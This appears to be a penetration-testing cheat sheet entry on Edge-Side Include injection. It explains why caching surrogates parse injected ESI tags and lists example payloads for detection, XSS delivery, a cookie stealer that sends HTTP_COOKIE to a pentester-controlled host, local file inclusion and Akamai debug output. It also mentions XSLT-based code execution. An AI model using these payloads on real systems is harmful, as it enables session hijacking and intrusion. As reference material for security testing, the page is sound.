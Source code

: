 Edge-Side Include Injection occurs when an attacker manages to reflect malicious ESI tags in the HTTP Response. The root cause of this vulnerability is that HTTP surrogates cannot validate the ESI tag origin. They will gladly parse and evaluate legitimate ESI tags by the upstream server and malicious ESI tags by an attacker.

```html
// Basic detection
<esi: include src=http://<PENTESTER IP>>

// XSS Exploitation Example
<esi: include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>>

// Cookie Stealer (bypass httpOnly flag)
<esi: include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
```

In some cases, we can achieve remote code execution when the application processing ESI directives supports XSLT, a dynamic language used to transform XML files. In that case, we can pass `dca=xslt` to the payload.

More info at [GoSecure](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/)